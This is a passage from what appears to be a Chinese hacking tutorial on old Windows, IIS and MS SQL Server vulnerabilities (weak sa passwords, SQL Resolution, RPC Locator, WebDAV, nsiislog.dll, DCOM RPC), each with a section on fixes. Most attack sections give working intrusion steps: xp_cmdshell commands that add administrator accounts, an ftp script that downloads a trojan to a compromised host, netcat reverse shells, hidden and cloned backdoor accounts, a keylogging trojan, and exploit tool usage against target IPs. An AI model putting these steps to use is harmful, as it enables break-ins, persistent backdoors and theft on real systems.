  http://www.microsoft.com/Downloads/Release.asp?ReleaseID=37931
- Microsoft IIS 5.0：  
  http://www.microsoft.com/Downloads/Release.asp?ReleaseID=37824

> 提示：溢出程序出现 send packet 71812 bytes、recv 信息后可能会有一段时间没有反应，需要稍等；连接时间不能过长，太长会断线；若断线可重新溢出一次。

## 10. MS SQL 弱口令攻防

**漏洞情况：**我们这里要讲的 MS SQL 弱口令是由于管理员的安全管理疏忽造成的，不能算漏洞。Microsoft SQL Server 是一款由 Microsoft 公司开发的商业性质大型数据库，默认服务端口 1433，目前通用的版本是 Microsoft SQL Server 2000。

Microsoft SQL Server 在安装时到“身份验证模式”设置时，会让用户选择“Windows 身份验证模式”或“混合模式（Windows 身份验证和 SQL Server 身份验证）”，如图 1。如果选择“Windows 身份验证模式”那安全性比较好，因为选择这个模式只能用 Windows 系统用户身份来进行登录，而且同时还要验证用户所在域等信息，攻击者想远程连接是不太可能的。只有当选择“混合模式”验证时，攻击者才可以进行远程连接并进行 SQL 弱口令探测。而有些安全意识薄弱的用户在 SQL Server 安装时将其管理员账号 sa 的密码默认为空或者设置成极其简单的口令，这样攻击者就有机可乘了。他们利用这些 SQL 空口令或弱口令用户，用 SQL 客户端程序远程连接到 SQL Server，然后直接用 xp_cmdshell 来运行任意系统命令。


**漏洞检测：**如何检测有 SQL 弱口令用户的主机呢？许多扫描器都有这个探测功能，像前面我们用过的流光、x-way、x-scan 都可以探测 SQL 弱口令用户。打开流光，在其“探测”->“扫描 POP3/FTP/NT/SQL 主机”，在“扫描主机类型”里选上“SQL”，如图 2，然后输入要扫描的地址范围，开始扫描。如果遇到 SQL 主机，它会自动进行常用密码尝试；发现 SQL 弱口令用户它会报告，如图 3。发现两台：一台 sa 口令为空，另一台 sa 密码为 123456。如果发现了 SQL 主机，但用常用密码探测不到用户口令，你可以给流光挂上大点的密码字典，然后对它进行长时间的暴力猜解。


**测试攻击：**发现有弱口令用户的 SQL 主机后，我们就可以利用一些 SQL 连接程序连接上去。流光本身就带有一个 sqlrcmd.exe 的连接工具，只要输入远程主机名和用户密码就能连接上去，如图 4。连接成功后我们就在命令行中输入命令了。先添加个 NT 用户复习一下：

```text
SQLCMD>net user master 123456 /add
命令成功完成。
SQLCMD>net localgroup administrators master /add
命令成功完成。
```

这几个命令做完后，如图 5，已经在 192.168.0.2 主机上添加了一个 master 用户，密码是 123456，并提升为管理员权限。有了系统管理员账号事情就好办了，可以用 IPC 默认共享漏洞上传木马启动它，也可以用流光的“种植者”给它下个冰河等，如图 6。如果对对方服务器进行 IPC 连接，可以回到 sqlexec 命令行中输入：`net start lanmanserver` 命令来启动其 ipc$ 连接，如图 7。但如果启动失败，或者由于别的原因服务器无法使用 ipc$ 连接，那怎么办？


那也不用急，办法多了。可以换个思路让肉鸡来连接本地主机：先开放本地主机的 IPC 和默认共享，然后回到 sqlexec 命令行中输入：`net use h: \\本机IP\c$ 123abc /user:administrator` 命令，将自己本机 C 盘映射成为肉鸡的 H 盘（net 命令的详细用法见第二章），接着只要运行 H 盘上的木马就可以了。

还有一个方法就是直接在 sqlexec 命令行用 ftp 命令去网上下载木马，当然事先你得把要用的木马放到网上的 ftp 服务器上（也可以用本机开 ftp 服务）。不过 sqlexec 命令行不能正常回显 ftp 的过程，先要建立一个 ftp.txt 文件：


```bat
echo "open 192.168.0.1" >>ftp.txt
echo "username" >>ftp.txt
echo "passwd" >>ftp.txt
echo "get binghe.exe" >>ftp.txt
echo "bye" >>ftp.txt
```

- 192.168.0.1 是 ftp 服务器地址；
- username 代表用户名，请用具体用户名代替；
- passwd 代表密码，请用具体密码代替；
- get 后跟准备好的木马；
- bye 退出 ftp。

这样 ftp.txt 文件完成后，可以在 sqlexec 命令行中输入：`ftp -s:c:\winnt\system32\ftp.txt` 命令。ftp 会按照 ftp.txt 记录的命令一条条执行，等一会儿你就能看到木马程序 binghe.exe 已经在肉鸡 `c:\winnt\system32\` 文件夹下了，接着启动它就行了。

其他图形界面的 SQL 连接工具还有天行出品的 SqlBrower.exe、sunx 写的 SqlExec.exe 等，其中 SqlBrower.exe 不但可以执行 MS-SQL 指令，还可以浏览、修改、删除、添加 MS-SQL 服务器上的数据表、存储过程等等，如图 8，也是个不错的工具，不过其用法与 sqlrcmd 非常类似，我们这里就不具体讲了。

## 补功初成

### 经典漏洞攻防

对象只是域内计算机，那建议把“身份验证模式”设置成“Windows 身份验证模式”，这样安全性高一点。


图 8


图 9

## 11. MS-SQL Resolution 远程溢出漏洞攻防

大家还记得 2003 年 1 月份的 SQL 蠕虫大爆发而导致全球互联网瘫痪事件吗？我们这里要讲的就是这个 SQL 蠕虫传播所利用的漏洞：Microsoft SQL Server 2000 Resolution 服务远程栈缓冲区溢出漏洞。

**漏洞情况：**Microsoft SQL Server 2000 支持在单个物理主机上伺服多个 SQL 服务器实例，每个实例操作需要通过单独的服务，不过多个实例不能全部使用标准 SQL 服务会话端口（TCP 1433），所以 SQL Server Resolution 服务操作监听在 UDP 1434 端口，提供一种使客户端查询适当网络末端用于特殊 SQL 服务实例的途径。

而 Microsoft SQL Server 2000 的 Resolution 服务对用户提交的 UDP 包缺少正确处理，远程攻击者可以利用这个漏洞进行基于栈的缓冲区溢出攻击。当 SQL Server Resolution 服务在 UDP 1434 端口接收到第一个字节设置为 0x04 的 UDP 包时，SQL 监视线程会获取 UDP 包中的数据，并使用此用户提供的信息来尝试打开注册表中的某一键值。如发送 `\x04\x41\x41\x41\x41` 类似的 UDP 包，SQL 服务程序就会打开如下注册表键：`HKLM\Software\Microsoft\Microsoft SQL Server\AAAA\MSSQLServer\CurrentVersion`。

攻击者可以通过在这个 UDP 包后追加大量字符串数据，当尝试打开这个字符串相对应的键值时，会发生基于栈的缓冲区溢出。通过包含“jmp esp”或者“call esp”指令的地址覆盖栈中保存的返回地址，可导致以 SQL Server 进程权限在系统中执行任意指令。受这个漏洞影响的系统有：Microsoft SQL Server 2000 SP0/SP1/SP2/Desktop Engine。

## 解决方法

强烈建议不要把 sa 用户默认设置为空口令，应该尽量使用复杂口令，比如数字+字母+符号。因为 sa 账户无法删除，攻击者往往会利用字典暴力猜解 sa 口令。如果已经把 sa 默认设置为空口令，那应该马上进入“控制台”，在 SQL 服务器的“安全性”→“登录”中修改其口令，如图 9。如果你的 SQL 服务器服务对象只是域内计算机，那建议把“身份验证模式”设置成“Windows 身份验证模式”，这样安全性高一点。

## MSSQL 漏洞攻防

### 漏洞检测

网上开放了 MSSQL 服务的主机比较多。由于 MS-SQL Server 的默认服务端口是 1433，所以我们只要在网上寻找打开 1433 端口的主机。打开 superscan（这是一款速度很快的端口扫描器），填入要扫描的 IP 段，选择“所有端口从 1433 到 1433”，开始扫描，不一会儿就能找到许多。如图 1。当然，找到 MS-SQL 主机并不等于一定存在漏洞，自从 1.25 蠕虫爆发后，许多主机都打了补丁。


图 1


图 2

### 漏洞测试

找到 MSSQL 2000 主机后可以尝试对它溢出。sql2.exe 是 Win 平台下此漏洞的溢出攻击工具，溢出后得到的 shell 回显到本地主机。这里介绍如何用 sql2.exe 获取系统访问权。先把 sql2.exe 和 nc.exe 拷贝到 C 盘下。

这里用 nc 来接收回显信息。它是经典后门工具 netcat，有 UNIX 和 WIN 两个版本。先打开 DOS 窗口输入监听命令，再开另一个 DOS 窗口查看 sql2.exe 的用法。

```bash
C:\>nc -l -p 53
```

该命令表示 nc 监听本地端口，`-p 53` 表示在本机监听 53 端口。也可以监听其他未占用端口。可用 `nc -h` 查看帮助。

```bash
Usage: C:\SQL2.EXE Target [<NCHost> <NCPort> <SQLSP>]
```

- **Target**：目标主机地址
- **<NCHost>**：本地主机地址
- **<NCPort>**：nc 监听的端口（如 53）
- **<SQLSP>**：目标主机补丁版本

如果不知道本机 IP，可在 DOS 下输入 `ipconfig`，`ip address` 显示即本机地址。补丁版本可先猜测（如 Win2000 常见 SP1/SP2），不成功可换参数重试。

```bash
c:\sql2 61.*.3.17 211.163.69.174 53 1
......
Packet sent!（发送成功）
......
```

这样溢出数据就发送出去了，如果补丁信息正确且对方未打补丁，即可能攻击成功。


图 3

溢出成功后得到的 shell 已经重定向到你本地主机的 53 端口上了，快去看看刚才打开的用于 NC 监听的第一个 DOS 窗口。看到了吗，如图 4：“Microsoft Windows 2000……C:\winnt\system32>”。这就是肉鸡的命令行操作符，你已经进入它的机器了。不信你 dir，看看它硬盘里的东西，不是你自己的吧！

这里可以通过添加“隐身帐号”或“克隆”管理员帐号的方法留后门。添加“隐身帐号”的方法是先增加一个特殊符号帐号（例如 `?$$`），再到注册表中找到该帐号对应 ID 并改成不存在的 ID，这样重启后用户管理界面就看不到该帐号。也可借助 `ca.exe` 将低权限用户克隆为 Administrator。


图 4

```bash
C:\winnt\system32>ca \\127.0.0.1 admin 123456（新密码）
（注意 127.0.0.1 为主机“自己的 IP”）
Clone Administrator, by netXeyes 2002/04/06
Written by netXeyes 2002, dansnow@21cn.com
Connect 127.0.0.1 .... OK
Get SID of guest....OK
Preparing ....OK
Processing ....OK
Clean Up ....OK
```

这样 guest 就成为了超级用户，并具有和 Administrator 同样的设置（桌面、菜单等）。最后如果不放心还可留木马，这里提到 `wolff.exe`，集 telnet、文件传输、FTP 服务、键盘记录、Sniffer、端口转发等功能于一身，运行后可直接 telnet 上去操作。


图 5

```bash
C:\winnt\system32>wolff.exe
```

这样以后就能通过 telnet `61.*.3.17 7614`（7614 是 wolff 默认监听端口）访问系统。如添加的用户名被发现，也可继续处理。漏洞消除：安装对应补丁或 SP4；若不能及时安装升级，可在防火墙、网关设备或 SQL Server 主机上过滤非法 IP 对 UDP/1434 端口的访问。

它开着 IPC 和默认共享连接，我们可以添加用户来留后门，不过直接添加用户的方法很容易被管理员发现。若想用 NT 帐户留作后门，可以添加“隐身帐号”或“克隆”管理员帐号。微软系统会对 `$` 字符过滤，导致某些帐号用 `net user` 无法看到，但在计算机管理中仍可见。可在注册表中找到该帐号对应 ID，位置在：`KEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users`。

## 12、Locator 服务远程溢出漏洞攻防（Win XP）

### 漏洞情况

此漏洞全称 Microsoft Windows RPC Locator 服务远程缓冲区溢出漏洞。Windows RPC Locator 服务是一款映射逻辑名称到网络特定名称的名字服务。客户端使用 RPC（remote procedure call）远程过程调用 Locator 服务，Locator 服务负责把客户端提交的网络名解析转换为硬盘、打印机等计算机系统上实际资源的地址。如果某一个打印机服务器逻辑名为 “laserprinter”，RPC 客户端调用 Locator 服务来找出网络名所映射的 “laserprinter”，RPC 客户端在调用 RPC 服务的时候使用网络名来提交请求。

不过 Locator 服务在接收注册信息的时候，没有对 Locator 服务的参数进行详细检查，超长超大的参数可以导致服务程序触发缓冲区溢出，使 Locator 服务崩溃；精心构建提交数据可能以 Locator 服务进程的权限在系统上执行任意指令，而且攻击者获取的是 System 权限。

默认情况下，Windows 2000 域控制器和 Windows NT 4.0 域控制器上 Locator 服务是默认运行；而下面的操作系统默认不使用这个服务：Windows NT 4.0（工作站和成员服务器）、Windows 2000（工作站和成员服务器）、Windows XP。但是如果这些操作系统一旦启动了 Locator 服务，也存在此漏洞，如图 1。

- **受影响系统：**
  - Microsoft Windows XP SP1
  - Microsoft Windows XP 64-bit SP1
  - Microsoft Windows NT 4.0 SP6a
  - Microsoft Windows 2000 SP1/SP2/SP3

### 漏洞检测

RPC Locator 服务远程缓冲区溢出漏洞是近期被发现的，现在一些网上广泛使用的扫描程序流光和 x-scan 等还没来得及将其纳入扫描模块中。要检测是否存在 RPC Locator 服务远程溢出漏洞，可以使用此漏洞的专用扫描程序。

Locator Scanner 就是一个专门用来扫描此漏洞的命令行扫描程序。它的用法是：

```bash
C:\>rpc IPAddress-Start IPAddress-End
IPAddress-Start：扫描开始的 IP 地址
IPAddress-End：扫描结束的 IP 地址
```

举个例子：`C:\>rpc 10.1.1.1 10.1.1.254`。这样就是扫描 10.1.1.1 到 10.1.1.254 的网段内主机。要注意的是 Locator Scanner 只能扫描 C 类网络地址。

掌握用法后我们就来正式开始扫描主机。把 Locator Scanner 拷贝到 D 盘下，然后在 cmd 中输入：

```bash
C:\>rpc 192.168.0.1 192.168.0.254
```

扫描开始后，程序显示：`192.168.0.2: **** Locator Service is running! ****`，这样我们就找到了一个运行了 Locator Service 的主机。


### 测试攻击

已经检测到有漏洞的主机，下面我们来了解如何利用 RPC Locator 服务的漏洞进行远程入侵。网上有不少关于 RPC Locator 远程入侵的方法，有朋友可能在使用一个根据老外写的 rpcexp.c 编译的溢出程序，如图 3。这个程序攻击时非常麻烦，首先要修改本地注册表的如下两个键值：

```bash
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Rpc\NameService\NetworkAddress=w2khost
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Rpc\NameService\ServerNetworkAddress=w2khost
```


图 3


图 4

然后还要手工与对方建立空连接：`net use \\targethost\ipc$ "" /u:""`，最后才能进行溢出攻击后得到一个 5151 端口的 cmdshell。很麻烦吧，所以建议大家别盲目崇拜老外的东西，国内许多黑客写的 RPC Locator 溢出程序都非常简单方便，建议用它们。Re.exe 是天行出品的 Locator 溢出程序，它只要填入相关攻击信息后就会自动完成攻击过程，溢出后远程获取 system 权限。它的用法是：

```bash
usage: re -h host
-p bind port (default: 138)
-u username (default: NULL user)
-o password (default: NULL pass)
-t OsType (default: 0)
-g direct to shell 0:nothing 1:go (default: 0)

OsType:
0 : Windows 2000 SP0~SP3

例子:
re -h 192.168.0.2
```

命令的意思：对 192.168.0.2 主机进行溢出，其他信息都用默认设置。如图 4，溢出攻击成功，出现 Shell 命令提示符：

Microsoft Windows 2000 [Version 5.00.2195]  
(C) 版权所有 1985-2000 Microsoft Corp.  
D:\WINNT\system32>

这样攻击过程就简单多了，连接 IPC 等过程都是程序自动完成的，而且还可以自定义溢出后绑定 shell 的端口，溢出后得到的 Shell 也是 system 权限的。不过不知道为什么 re.exe 溢出程序不支持 WinXP 系统。前面我们在漏洞描述中已经讲了 WinXP 的 Locator 服务也存在这个漏洞，如果你想对 WinXP 进行溢出测试，可以用 Sunx 写的 locatorhack.exe 来溢出。它不但支持 WinXP 系统，而且还支持多种语言版本。它的用法是：


图 5

```bash
usage: LocatorHack <-h Host> <-v OSVer> <-l OSLanguage> <-s OSSP> <-r connectback host> <-p connectback port>

OS Version:
winnt: 1
win2k: 2
winxp: 3
```

- OS Language:
  - english: 1
  - chinese: 2
  - japanese: 3

```text
microsoft.com/downloads/details.aspx?FamilyId=B8999D16-3DAD-4E20-B46E-E1AEFB1F6673&displaylang=en
```

如图 5，如果测试对象是 WinXP，只要在 `<-v OSVer>` 上填 3 就行，其他攻击过程与 re.exe 差不多，就不赘述了。


图 6

### 解决方法

如果你不使用 Locator 服务，强烈建议你关闭此服务。可在 Windows 2000/XP 系统中打开“控制面板→管理工具→服务”，查看 Remote Procedure Call (RPC) Locator 服务是否启动；如已启动可停止它，并将 RPC Locator 服务状态设置为“禁用”。

如果需要 Locator 服务，请尽快打上补丁。此漏洞相关平台补丁：

- Windows NT 4.0：  
  http://microsoft.com/downloads/details.aspx?FamilyId=F92D1E86-590A-4DA5-93F2-FCC6300A1A43&displaylang=en
- Windows 2000：  
  http://microsoft.com/downloads/details.aspx?FamilyId=33FF827A-D5DB-4F92-9DEF-4D91A140E0E0&displaylang=en
- Windows XP 32-bit Edition：  
  http://microsoft.com/downloads/details.aspx?FamilyId=DF24197E-6217-4ABD-A244-0A53320B2813&displaylang=en
- Windows XP 64-bit Edition

## 13、IIS WebDAV 远程溢出漏洞攻防

### 漏洞情况

Microsoft Windows 2000 WebDAV 远程缓冲区溢出漏洞。IIS 5.0 包含的 WebDAV 组件未充分检查传递给部分系统组件的数据，远程攻击者可利用该漏洞对 WebDAV 进行缓冲区溢出攻击，可能以 WEB 进程权限在系统上执行任意指令。

IIS 5 默认提供了对 WebDAV 的支持。WebDAV（基于 Web 的分布式写作和改写）是对 HTTP 协议的扩展，允许用户协作编辑和管理远程 Web 服务器上的文件，包括创建、移动、复制及删除远程服务器上的文件。

由于 WebDAV 使用了 ntdll.dll 中的一些 API 函数，而这些函数存在缓冲区溢出问题；IIS 5.0 中 WebDAV 组件对用户输入传递给 ntdll.dll 的请求未做充分边界检查，远程入侵者可通过构造超长请求触发溢出，成功利用后可获得 LocalSystem 权限，从而取得主机完全控制能力。

因此该漏洞并非 IIS 本身独有缺陷，而与 ntdll.dll 相关，调用该 API 的其他应用也可能受影响。

- 受影响系统：
  - Microsoft IIS 5.0
  - Microsoft Windows 2000 Professional / Server / Datacenter Server SP3
  - Microsoft Windows 2000 Professional / Server / Datacenter Server SP2
  - Microsoft Windows 2000 Professional / Server / Datacenter Server SP1
  - Microsoft Windows 2000 Professional / Server / Datacenter Server

### 漏洞检测

在上面介绍漏洞基本情况的时候我们已经说了，IIS 5.0 的默认配置是提供了对 WebDAV 的支持。也就是说如果没有打过此漏洞补丁，一般情况下你的 IIS 存在这个漏洞。但如何确定呢？我们可以借助一些工具来进行检测。

WebDAVScan 是一个专门用于检测网段内 Microsoft IIS 5.0 服务器是否提供了 WebDAV 支持的扫描器。软件非常小，只有 7.23KB，而且是绿色软件，无须安装，直接运行即可。扫描后如有此安全漏洞，软件会自动生成扫描报告。原版也是老外写的，不过我们这里用的是 WebDAVScan 汉化版。如图 1，这个软件确实很不错，用它扫描一个小网段只花了几十秒，速度很快。窗口右边显示的就是结果，“Enable” 表示此 IIS 支持 WebDAV，至于有没有漏洞要看它有没有打过补丁。好了，WebDAV 的检测介绍完了，下面开始讲利用此漏洞进行测试攻击。

溢出程序这个版本只对中文版有效。它溢出成功后直接在目标主机的 7788 端口上绑定一个 LocalSystem 权限的 cmdshell，我们只要 telnet 到 7788 端口就可以了，所以用它在局域网内也能对局域网外的主机进行攻击。在刚才 WebDAVScan 扫描到的 WebDAV 主机中选一台，打开 CMD，输入：

```bash
C:\>web 192.168.0.2
IIS WebDAV overflow remote exploit by isno@xfocus.org.
start to try offset,
if STOP a long time, you can press ^C and telnet 192.168.0.2 7788
try offset: 0
try offset: 1  （尝试不同的 offset）
waiting for iis restart......................
(IIS 在这里重启了，等一会)
.....
```


### 测试攻击

网上有许多不同版本的 WebDAV 溢出攻击程序，但其核心代码虽然类似。下面我们来了解一下如何用这些 WebDAV 溢出攻击程序来进行入侵。

我们测试的是中文版 IIS 主机，攻击软件是 webdavx.exe。为了输入方便，我把 Webdavx.exe 改名为 web.exe。这是一个针对中文版 Win2000 的溢出攻击程序。


如图 2，如果程序停顿时间比较长都没有反应，就按 Ctrl+C 结束，然后连上目标的 7788 端口去试试：`C:\>telnet 192.168.0.1 7788`。连接成功后，如图 3，又出现那亲切的系统提示。

符号了：

```
Microsoft Windows 2000 [Version 5.00.2195]
(C) 版权所有 1985-2000 Microsoft Corp.
C:\WINNT\system32>
```

这说明溢出成功了。而且你这时得到的是 system 权限，比超级用户还高一级，不信你可以加个 administrator 组的成员或删个系统文件试试。

当然不是每次溢出都一定成功的，如果 telnet 连接提示失败，那说明溢出可能不成功。还要注意的是 webdavx.exe 只能对简体中文版进行溢出，如果要对英文版和繁体中文版本进行溢出，得使用相应的溢出工具（见光盘），使用方法类似，我们这里就不讲了。

## 漏洞消除

WebDAV 远程溢出后直接得到的是 system 权限，黑客可以在机器上干任何事情，这是个很危险的漏洞！如何消除它呢？具体可以通过以下几个方案来解决：

- 1. 安装补丁。目前微软已经提供了此漏洞的补丁或 SP4 补丁，下载地址：  
  http://microsoft.com/downloads/details.aspx?FamilyId=C9A38D45-5145-4844-B62E-C69D32AC929B&displaylang=en
- 2. 如果你不能立刻安装补丁或者升级，也可以手工修补这个漏洞。WebDAV 功能对一般的 Web 服务器来说并不需要，所以可以把它停止掉。WebDAV 在 IIS 5.0 Web 服务器上的实现是由 Httpext.dll 完成，默认安装。但是简单更改 Httpext.dll 不能修正此漏洞，因为 Windows 2000 的 WFP 功能会防止系统重要文件被破坏或删除。要完全关闭 WebDAV 包括的 PUT 和 DELETE 请求，需要对注册表进行如下更改：

启动注册表编辑器，搜索注册表中的如下键：

```
HKEY_LOCAL_MACHINE\SYSTEM\
CurrentControlSet\Services\W3SVC\Parameters
```

找到后点击“编辑”菜单，点击“增加值”，然后增加如下注册表键值：

```
Value name: DisableWebDAV
Data type: DWORD
Value data: 1
```

最后别忘了重新启动 IIS，只有重启 IIS 后新的设置才会生效。

## 14、Media nsiislog.dll 远程溢出漏洞攻防（Win2003）

我们下面要介绍的这个漏洞不但影响 Win2000 系统，而且还影响不久前问世的 Win2003 系统，所以大家要注意哦！

### 漏洞情况

Microsoft Windows Media Services（媒体服务）是 Microsoft Windows 2000/2003 中包含的服务，它支持通过多播流从网络上传送媒体内容给客户端。为了能记录客户端信息，Windows Media 提供了多播和单播传输进行记录的功能，此功能以 ISAPI 扩展 nsiislog.dll 来实现。而当这个 nsiislog.dll 处理超长 POST 请求数据时存在缓冲区溢出漏洞，如果攻击者向服务器提交特殊构造的请求，会导致 IIS 停止对 Internet 请求的响应或者执行任意指令。黑客利用这个漏洞可取得 guest 权限的远程访问权。受此漏洞影响的系统包括：Microsoft Windows 2003 Server，Windows 2000 SP3/SP2/SP1。

Windows Media 服务在 Windows 2000/2003 系统默认安装时是没有安装的，只有当 Windows 媒体服务在 Windows 2000/2003 中通过“增加/删除程序”进行安装时，nsiislog.dll 文件才会存在。要通过“控制面板”中的“增加/删除程序”安装组件来安装 Windows Media 服务后，nsiislog.dll 才会安装到 IIS 脚本（Scripts）目录下。由于不是默认安装的，所以网上提供 Windows Media 服务的主机不是太多，只有一些提供了影视点播服务的网站会提供 Windows Media 服务。

图1  
图2  
图3

### 漏洞检测

攻击者要利用这个漏洞必须有两个前提条件：一是 Windows 2000/2003 服务器提供了 Windows Media 服务；二是 Windows 2000/2003 服务器开放了 IIS 服务，同时其脚本目录（Scripts）下要存在 nsiislog.dll 文件（如图2）。只有当这两个条件都满足时，这个漏洞才能被利用。

那如何检测对方 Windows 2000/2003 服务器有这个漏洞呢？这很简单！Windows Media 服务的默认服务端口是 7007，所以只要用端口扫描器扫描目标主机是否同时开放 7007 和 80 端口就行了。Superscan 是一个速度飞快的端口扫描器，用它来完成这个扫描任务最合适：在其“端口设置”里设置扫描 80 和 7007 两个端口，保存后填入要扫描的范围，然后开始扫描。等扫描完毕后结果就出来了，如图3，发现两台同时开放 80 和 7007 端口的主机。

### 测试攻击

这个漏洞的危险性到底有多大，是否真的如漏洞描述中讲的那样能执行任意代码、取得访问权吗？拿出溢出程序 iis.exe，这是一个命令行下的此漏洞溢出工具，溢出成功后会在 99 端口绑定一个 Shell，用法是：

```
Usage:iis ipaddress
Example:iis 192.168.0.1 port<default 80>
```

在 CMD 下输入：

```
C:\>iis 192.168.0.2
```

进行溢出测试，如图4。程序提示：“Enjoy!!! You can telnet on port 99 now.” 后，可以连接到其 99 端口试试了：

```
C:\>telnet 192.168.0.2 99
```

图4

连接成功，出现“可爱”的命令提示符，如图5。试了 net user、dir、type、netstat 几个命令，有些因权限不够不能执行外，别的都正常回显了结果，和远程登录的功能一模一样。再试读写权限，因为溢出后得到的只是 guest 权限，所以对系统文件只能读不能写。但对黑客来说，在这样的情况下再要扩大权限也不是难事，只要通过 FTP 下载一个能本地提权的小程序来运行就可以了。而如果连接不上去说明溢出失败，这有可能是对方有防火墙过滤，或是已经打了补丁，你可以换台机子再试。

图5

### 解决方法

利用此漏洞很容易就进入 Windows 2000/2003 服务器了，即使是打了 SP3 补丁的 Win2000/2003 系统都依然存在这个漏洞。目前网上不少开了 Windows Media 服务的服务器还没补上这个漏洞。如果不能立刻安装补丁，可以删除或者禁用 nsiislog.dll 来消除这个漏洞，这并不会影响媒体服务的正常工作。当然这只是临时解决方法，最好的解决方法还是尽快去 Microsoft 网站下载补丁，下载地址：

http://microsoft.com/downloads/details.aspx?FamilyId=F772E131-BBC9-4B34-9E78-F71D9742FED8&displaylang=en

## 15. DCOM RPC 接口远程溢出漏洞攻防

此漏洞影响 Win NT/2000/XP/2003 所有版本，而且在 Win NT/2000/XP/2003 系统中的 RPC 服务都是默认开放的。有人把这个漏洞称为“Windows 系统有史以来最严重的安全漏洞”，这说法也并不为过。我们只要回想一下那肆虐一时的“冲击波”蠕虫就知道此言非虚，因为“冲击波蠕虫”就是利用此漏洞传播的。

### 漏洞情况

Remote Procedure Call（RPC）是 Windows 操作系统使用的一种远程过程调用协议，RPC 提供进程间交互通信机制，允许在某台计算机上运行的程序无缝地在远程系统上执行代码。

Microsoft 的 RPC 部分在通过 TCP/IP 处理信息交换时存在问题，远程攻击者可以利用这个漏洞以本地系统权限在系统上执行任意指令。此漏洞是由于不正确处理畸形消息所致，漏洞影响使用 RPC 的 DCOM 接口。此接口处理由客户端机器发送给服务器的 DCOM 对象激活请求（如 UNC 路径）。

问题主要发生在 RPC 服务为 DCOM 服务提供“_RemoteGetClassObject”接口上。当传送一个特定包导致解析一个结构的指针参数为 NULL 的时候，“_RemoteGetClassObject”未对此结构指针参数做有效性检查，在后续中就直接引用了此地址（此时为 0）做读写操作，这样就导致了内存访问违规，RPC 服务进程崩溃。

攻击者利用此漏洞可以以本地系统（system）权限执行任意指令，可以在系统上执行任意操作，如安装程序、查看或更改、删除数据或建立系统管理员权限的账户。攻击之后，许多基于 RPC 的应用无法使用，如使用网络与拨号连接拨号、配置本地连接等。

一些基于 RPC、DCOM 的服务与应用将无法正常运行。要利用这个漏洞，可以发送畸形请求给远程服务器监听的特定 RPC 端口，如 135、139、445、593 等任何配置了 RPC 端口的机器。

受影响系统：Win NT/2000/XP/2003 所有版本。  
不受影响系统：Microsoft Windows 98/ME。

### 漏洞检测

由于此漏洞重大，漏洞公布后几天就出现了许多检测 DcomRpc 溢出漏洞的扫描器，有命令行的也有图形界面的。其中国外著名安全公司 eEye 推出的专门针对 RPC DCOM 漏洞的 RetinaRPCDcom Scanner 扫描工具非常不错，扫描速度飞快，只填入扫描网段后就可以直接扫描了。如果发现主机有漏洞，它会在“result”中显示“vulnerable（有弱点的）”，如图1。

国产的几个知名扫描器由于版本还没有及时更新，不能检测到此漏洞。不过像 X-Scan 等扫描器提供了插件功能，用户只要自己加入新的插件也能探测到新的漏洞。关于如何写插件，X-Scan 自带有详细说明，我们这里就不说了。把扫描 DcomRpc 漏洞的插件 DComRpc.xpn（见光盘）拷贝到 x-scan 的 plugin 文件夹下，然后打开 X-Scan，你会发觉其“扫描模块”中多了一个扫描选项“DcomRpc 溢出漏洞”（如图2）。选上后就可以用它来检测网上主机是否有 DcomRpc 溢出漏洞了。再到“扫描参数”中填入 IP 地址开始扫描，不一会儿就出现漏洞报告：“[192.168.0.2]：发现 DcomRpc 溢出漏洞：目前 windows 版本中危害最大的 DcomRpc 漏洞”，如图3。

### 测试攻击

又到最精彩的地方了，让我们来试试这个漏洞的威力。这个漏洞最初的溢出分析报告是安全焦点的高手 flashsky 公布的。现在网上已经有许多关于 DcomRpc 漏洞的溢出攻击工具，我们拿其中几个来进行测试攻击。

dcomrpc.exe 是一个命令行下的溢出工具，它溢出后直接得到一个 Shell，不像有些反弹端口功能的溢出工具需要 nc 监听本地端口。当然反向连接也不是全无好处，有些有防火墙过滤的主机就得靠它。dcomrpc.exe 的用法是：

```
Usage:
dcomrpc -d <host> [options]

Options:
-d: Hostname to attack [Required]
-t: hostType [Default: 0]
-r: Return address [Default: Selected from target]
-p: Attack port [Default: 135]
-l: Bindshell port [Default: 666]

Types:
0 [0x0018759f] [Win2k]
1 [0x0100139d] [WinXP]
```

我们用它来对有 DcomRpc 漏洞的 192.168.0.2 主机进行测试。因为 192.168.0.2 主机是 Win2000 系统，所以这里用默认设置，只要输入要攻击的主机地址就行。如果是 Win XP 就要设置 `-t:1` 了。攻击端口可以在 135、139、445、593 这几个端口中选，前提是对方主机开了此端口；绑定 Shell 的端口可以随便选。打开 CMD，输入：

```
d:\>dcomrpc -d 192.168.0.2
```

溢出需要几秒时间。这个程序还有一个好处，就是溢出后会主动连接对方主机，我们连 telnet 都省了。溢出成功即可得到 shell。

RPC Exploit GUI 是图形界面的攻击工具。它将几款工具功能集于一身，不但可以对 2000/XP/2003 主机进行 RPC DCOM 漏洞溢出，还提供 FTP 服务端和端口扫描器，使你溢出后能用 FTP 服务端上传文件，还可以选择溢出时连接的端口。刚才我们对 Win2000 进行测试，现在用它来对 Win XP 进行测试攻击：在“IP ADDRESS”中填入要攻击的地址，在“operating system”中选“Windows XP”，在“exploit port”中可以在 135、139、445、593 选一个，shell port 和 return address 默认不用改，然后按“Exploit”按钮，接着会弹出一个 DOS 窗口进行溢出攻击，溢出成功后系统也会自动连接到 shell，如图6。

> **提示**：在微软发布补丁前，利用此漏洞攻击的成功率几乎是百分之百。但自从补丁发布并普及以来，利用此漏洞已不再像早期那样高效。

### 解决方法

此漏洞是 Windows 系统有史以来最严重的安全漏洞，而且更麻烦的是 RPC 服务不能关闭，因为许多常用服务都是基于 RPC 服务的，所以不能用关闭 RPC 服务的方法来消除漏洞。一般的解决方法是用防火墙过滤系统服务端口，使不可信主机无法访问。在 Windows 系统中可以进行 RPC 调用的端口至少包括：

| 端口 | 服务 | 说明 |
|---|---|---|
| 135/TCP | epmap | DCE endpoint resolution |
| 135/UDP | epmap | DCE endpoint resolution |
| 139/TCP | netbios-ssn | NETBIOS Session Service |
| 139/UDP | netbios-ssn | NETBIOS Session Service |
| 445/TCP | microsoft-ds | Win2k+ / Server Message Block |
| 445/UDP | microsoft-ds | Win2k+ / Server Message Block |
| 593/TCP | http-rpc-epmap | HTTP / RPC Ep Map |
| 593/UDP | http-rpc-epmap | HTTP / RPC Ep Map |

所以应该对这些端口都进行过滤，这无疑比较麻烦。所以最快最好的方法，建议大家赶快安装补丁，下载地址：

```
Windows 2000:
